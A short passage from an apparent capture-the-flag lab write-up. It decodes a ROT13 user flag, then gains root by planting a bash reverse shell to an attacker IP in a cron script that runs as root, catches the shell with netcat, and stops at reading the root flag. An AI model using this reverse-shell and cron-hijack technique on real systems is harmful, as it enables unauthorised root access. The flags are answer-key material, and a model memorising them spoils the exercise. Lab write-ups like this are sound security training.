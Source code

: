 ```
cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}

```

- rot13
flag{n0wits33msn0rm4l}


#### What is the root flag?

- revisamos cronjobs
```
cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

```

```
cat .mysecretcronjob.sh 
#!/bin/bash
# i will run as root
bash -i >& /dev/tcp/10.2.116.74/4242 0>&1

```

```
nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.2.116.74] from (UNKNOWN) [10.10.72.9] 51894
bash: cannot set terminal process group (1519): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls -a
ls -a
.
..
.bash_history
.bashrc
.cache
.gnupg
.local
.profile
.root.txt
.selected_editor
root@kral4-PC:~# cat .root.txt  
cat .root.txt
```